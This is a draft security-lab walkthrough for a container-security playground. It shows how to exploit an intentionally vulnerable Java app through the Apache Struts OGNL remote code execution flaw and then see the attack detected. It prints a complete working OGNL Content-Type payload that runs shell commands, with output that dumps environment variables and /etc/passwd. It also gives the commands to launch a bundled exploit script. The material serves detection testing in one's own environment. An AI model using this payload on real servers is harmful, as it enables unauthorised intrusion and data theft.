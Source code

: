 # Scenario: Detect Apache Struts RCE Vulnerability Exploitation

***DRAFT***

## Prerequisites

- Playground One EKS Cluster
- Vision One Container Security
- Playground One Scenarios
  - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply eks
pgo --apply scenarios
```

If you need to extract the exploits unzip with the password `virus`:

```sh
cd ${ONEPATH}
unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o scenarios
```

Example output with ECS EC2:

```sh
loadbalancer_dns_health_check = "k8s-goat-healthch-e9104c52db-803985454.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_hunger_check = "k8s-goat-hungerch-0816ee11b2-1006982801.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_java_goof = "k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_system_monitor = "k8s-goat-systemmo-09a16052b6-565756108.eu-central-1.elb.amazonaws.com"
```

You want the variable `loadbalancer_dns_java_goof`.

### Exploit

Run:

```sh
cd ${ONEPATH}/exploits/struts/
./struts-exploit.sh k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com
```

Expexted result:

```ascii
*   Trying 3.120.84.56:80...
* Connected to k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com (3.120.84.56) port 80 (#0)
> GET /todolist/ HTTP/1.1
> Host: k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com
> User-Agent: curl/7.81.0
> Accept: */*
> Content-type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 11 Sep 2023 07:18:49 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< Server: Apache-Coyote/1.1
< 
WEB_APP_SERVICE_SERVICE_PORT=80
KUBERNETES_SERVICE_PORT_HTTPS=443
TREND_AP_LOG_FILE=STDERR
JAVA_GOOF_SERVICE_SERVICE_PORT=8080
KUBERNETES_SERVICE_PORT=443
WEB_APP_SERVICE_PORT_80_TCP_ADDR=172.20.245.34
MAVEN_CONFIG=/root/.m2
MAVEN_PROJECTBASEDIR=/usr/src/goof
HOSTNAME=java-goof-6c95b8cd5f-qn49h
MAVEN_CMD_LINE_ARGS=/root/.m2 tomcat7:run
JAVA_GOOF_SERVICE_PORT_8080_TCP_PORT=8080
...
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 11 Sep 2023 07:18:49 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< Server: Apache-Coyote/1.1
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com left intact
```

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-eks-struts-01.png "Exploit")
